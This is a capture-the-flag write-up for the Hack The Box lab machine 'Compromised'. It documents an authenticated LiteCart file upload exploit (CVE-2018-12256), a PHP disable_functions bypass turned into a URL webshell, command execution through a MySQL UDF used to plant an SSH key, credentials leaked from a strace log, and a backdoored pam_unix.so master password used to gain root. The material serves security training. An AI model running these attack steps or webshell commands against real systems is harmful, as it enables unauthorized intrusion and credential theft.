




<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.207 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.207`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Legitimate Rubber Ducks | Online Store
|_Requested resource was http://10.10.10.207/shop/en/
```

## Web_server

webserver is running **[LiteCart](https://www.litecart.net/en/) CMS** - A free online catalog and shopping cart platform developed in PHP.

### Gobuster

`gobuster dir -u http://10.10.10.207/ -w /usr/share/wordlists/dirb/common.txt -t 40`
```
/backup (Status: 301)
```

* found a backup dir

### /backup

**Goto** http://10.10.10.207/backup

    Index of /backup
    Name  Last modified Size  Description
    Parent Directory    -    
    a.tar.gz  2020-09-03 11:51  4.4M   

* Found a tar archive
* this file contains the backup of the webserver.
* after some time enumerating the backup i found some intresting data.

* in the `includes/config.inc.php` [file] found a password hash and database configuration -

        // Database
          define('DB_TYPE', 'mysql');
          define('DB_SERVER', 'localhost');
          define('DB_USERNAME', 'root');
          define('DB_PASSWORD', 'changethis');
          define('DB_DATABASE', 'ecom');
          define('DB_TABLE_PREFIX', 'lc_');
          define('DB_CONNECTION_CHARSET', 'utf8');
          define('DB_PERSISTENT_CONNECTIONS', 'false');

        // Password Encryption Salt
        define('PASSWORD_SALT', 'kg1T5n2bOEgF8tXIdMnmkcDUgDqOLVvACBuYGGpaFkOeMrFkK0BorssylqdAP48Fzbe8ylLUx626IWBGJ00ZQfOTgPnoxue1vnCN1amGRZHATcRXjoc6HiXw0uXYD9mI');

  **Found mysql database creds:** `root:changethis`
  * but this database is in the local so these creds are not useful and the password hash is salted so cracking this hash is wast of time so i move forward.

  * found a comment inside `admin/login.php` file -

        //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);

* this comment indicate a file directory `/.log2301c9430d8593ae.txt` in the server where login creds a stored.
  * i an asuming the login.php file is in `shop/admin` directory so that the `txt` file is also there.
  * and going to `http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt` i got some creds
  
        User: admin Passwd: theNextGenSt0r3!~
        
### creds
`admin:theNextGenSt0r3!~`

### admin login

**Goto** `http://10.10.10.207/shop/admin` redirect to admin login page `http://10.10.10.207/shop/admin/login.php?redirect_url=%2Fshop%2Fadmin%2F` 

* in the admin panel i got running **LiteCart** version **2.1.2**

### LiteCart Arbitrary File Upload (Authenticated) Exploit

* searching on google for **LiteCart-2.1.2-Exploit** i found a CVE

  Vulnerability Details : [CVE-2018-12256](https://nvd.nist.gov/vuln/detail/CVE-2018-12256)
  * **Discription :** admin/vqmods.app/vqmods.inc.php in LiteCart before 2.1.3 allows remote authenticated attackers to upload a malicious file (resulting in remote code execution) by using the text/xml or application/xml Content-Type in a public_html/admin/?app=vqmods&doc=vqmods request. 
  * `shop/admin/vqmods.app/vqmods.inc.php` file is responsible for this vulnerability.

#### Exploit surface

* On the admin panel goto vQmods tab `http://10.10.10.207/shop/admin/?app=vqmods&doc=vqmods` here we can see a file upload option.
* from the file upload option we can upload a php file insted of xml file by changing `Content-Type: application/x-php` to `Content-Type: application/xml` in the POST request and we can see that the file get uploaded, and thats the way we can get the remote code execution.

**Why this happening -**

in the litecart version 2.1.2 it validates the vQmods xml file by checking `Content-Type` in the file upload POST request and the `Content-Type` is ditermined by the file extention so when we upload xml file then the **Content-Type: text/xml** and when we upload php file then the **Content-Type: application/x-php**

and in the litecart 2.1.2 source code of the `vqmods.inc.php` file:



upload function is only validates the file by cheacking the `Content-Type` from the POST request.

so if we intercept the POST request and change the `Content-Type: application/x-php` to `Content-Type: application/xml` while uploading php file it get uploaded easily.

## User Exploit

* found python script in [ExploitDB](https://www.exploit-db.com/exploits/45267) but this script did not worked.

* first i do a manual test and execute the `phpinfo()` function to check the server's php configuration and found out that in the server there are so many php functions are diabled and thats why the ExploitDB script was not worked.



  * I also find php version is `7.2.24-0ubuntu0.18.04.6`
  * there is a **disable functions bypass vulnerability** in the php version 7.0<7.3 and i can use that to bypass the disabled function and can execute shell commands but don't get shell.
    * [PHP 7.0 < 7.3 (Unix) - 'gc' disable_functions Bypass](https://www.exploit-db.com/exploits/47462) - ExploitDB 

* I just need to upload that disable_functions bypass exploit php file and change the `pwn` function input in line 17 `pwn("uname -a");` to a shell commands i want to execute and get output in the browser from `http://10.10.10.207/shop/vqmod/xml/bypass.php`

* in the `pwn` function from exploit.php file i use `$_REQUEST` [superglobal variable](https://www.php.net/manual/en/reserved.variables.request.php)

**super global variable** `$_REQUEST` is used to collect the user input so we can use this variable to run commands from url field without uploading php file everytime

**solving all scripts errors -**

**First**, change bypass.php `pwn` function input from shell command -

    pwn("uname -a");

to a global variable - 

    pwn($_REQUEST['c']);

**Second**, to solve ExploitDB's litecart exploit script we need to remove php shell from it -



and load bypass.php file in it -




### USER:www-data shell

**Run [litecart exploit script](scripts/litecart-exploitdb.py)**

`python litecart-exploitdb.py -t http://10.10.10.207/shop/admin/ -p 'theNextGenSt0r3!~' -u admin`
```
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/F8ALL.php?c=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
compromised
www-data
```

**From url shell**

`http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=cat%20/etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
...
sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
```

* so there is a user `mysql` with `/bin/bash` that means sql database has a user level rights.
* from tar archive i already found creds for mysql database so i can login into.
* i found a User Defined Functions(udf) in mysql -

    `http://10.10.10.207/shop/vqmod/xml/MF6GJ.php?c=mysql -u root -pchangethis -e "select * from mysql.func"`

      name	ret	dl	type
      exec_cmd	0	libmysql.so	function

<!--
`http://10.10.10.207/shop/vqmod/xml/MF6GJ.php?c=find / -type f -name libmysql.so -print 2%3E/dev/null`
/usr/lib/mysql/plugin/libmysql.so

http://10.10.10.207/shop/vqmod/xml/MF6GJ.php?c=base64 /usr/lib/mysql/plugin/libmysql.so -w 0
❯ base64 -d libmysql.so.b64 > libmysql.so

http://10.10.10.207/shop/vqmod/xml/MF6GJ.php?c=md5sum /usr/lib/mysql/plugin/libmysql.so
3bdd534be983344d550f61babd53df75  /usr/lib/mysql/plugin/libmysql.so

❯ md5sum libmysql.so
3bdd534be983344d550f61babd53df75  libmysql.so
-->

* so i can use this function `exec_cmd` to execute system commands - 

    `http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('id')"`

      exec_cmd('id') uid=111(mysql) gid=113(mysql) groups=113(mysql)\n\0\0\0\0\0\0\0\0\...\0\0\0\0

* get a shell command output but when i try to execute reverse shell it did not worked for me so i put public ssh key in the user's Authorized keys and get a ssh shell as user `mysql`

* verifying `authorized_keys` file location

    `http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('pwd')"`

      exec_cmd('pwd') /var/lib/mysql\n\0\0\0\0\0\0\0\0\0\...\0\0\0\0

    `http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('cd .ssh;ls')"`

      exec_cmd('cd .ssh;ls') authorized_keys\n\0\0\0\0\0\0\0\0\0\...\0\0\0\0

* Put ssh key

      http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('echo ssh-rsa AAAAB3NzaC1y...Nb5q4%2B1LtnZpjM= > ~/.ssh/authorized_keys')"

  * while putting my ssh in the `authorized_keys` it won't worked at first and then i notice in the output that the every plus `+` sign from the ssh key was converted into a white space so i changed every `+` sign into `%2B` that is equvilent to a plus sign to solve this problem.

### USER:mysql shell

`ssh -i mysql mysql@10.10.10.207`
```
mysql@compromised:~$ id
uid=111(mysql) gid=113(mysql) groups=113(mysql)
```

* there is a strace log file in the mysql directory -

  **[Strace](https://strace.io/):** strace is a powerful command line tool for debugging and trouble shooting programs in Unix-like operating systems such as Linux. It captures and records all system calls made by a process and the signals received by the process.

      mysql@compromised:~$ ls -la strace-log.dat
      -r--r----- 1 root mysql 787180 May 13  2020 strace-log.dat

* it this log file i found `sysadmin` user password -

      mysql@compromised:~$ cat strace-log.dat | grep password
      22227 03:11:09 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=3*NLJE32I$Fe"], 0x55bc62467900 /* 21 vars */) = 0

### creds
`sysadmin:3*NLJE32I$Fe`


### USER:sysadmin shell

* su to user sysadmin

      mysql@compromised:~$ su - sysadmin
      Password: 3*NLJE32I$Fe
      sysadmin@compromised:~$ cat user.txt
      6353ccb6************************


# Privesc Enumeration

* while searching for most recently modified files i found a Shared Object `pam_unix.so`

      sysadmin@compromised:~$ dpkg -V 2>/dev/null
      ??5??????   /lib/x86_64-linux-gnu/security/pam_unix.so

      sysadmin@compromised:~$ ls -lt /lib/x86_64-linux-gnu/security/pam_unix.so
      -rw-r--r-- 1 root root 198440 Aug 31 03:25 /lib/x86_64-linux-gnu/security/pam_unix.so

  * this [file](https://github.com/x00tex/hackTheBox/blob/main/Boxes/linux/Retired/compromised/dump/pam_unix.so) created/modified(Aug 31) just before the box release(12 September 2020).

* **[pam_unix](https://linux.die.net/man/8/pam_unix):** It uses standard calls from the system's libraries to retrieve and set account information as well as authentication. Usually this is obtained from the /etc/passwd and the /etc/shadow file as well if shadow is enabled.

* one intresting thing i found while searching about this file is that this file also used in persistence compromised attack where attacker modified the file and backdoored it with a master password to access root witout any interruption and i also found a script for this at  [zephrax@github](https://github.com/zephrax/linux-pam-backdoor)


# Root Privesc

* Download file in my machine

    `scp sysadmin@10.10.10.207:/lib/x86_64-linux-gnu/security/pam_unix.so pam_unix.so`
        
      sysadmin@10.10.10.207's password: 3*NLJE32I$Fe
      pam_unix.so                                                 100%  194KB 111.2KB/s   00:01

* using **[Ghidra](https://ghidra-sre.org/)** reverse engineering tool to disassemble the library -

      backdoor._0_8_ = 0x4533557e656b6c7a;
      backdoor._8_7_ = 0x2d326d3238766e;

* decoding hardcoded password:
  * convert hex into charsequence in ghidra -

        00103195 48 b8 7a        MOV        RAX,"E3U~eklz"

        001031a9 48 b8 6e        MOV        RAX,"\0-2m28vn"

  * then append both togeather and create a string -

        -2m28vnE3U~eklz

  * and reverse the string order -

        >>> "-2m28vnE3U~eklz"[::-1]
        'zlke~U3Env82m2-'

got the password: `zlke~U3Env82m2-`

### creds
`root:zlke~U3Env82m2-`

* su to root shell

      sysadmin@compromised:~$ su - root
      Password: zlke~U3Env82m2-
      root@compromised:~# cat root.txt
      e2bd79c2************************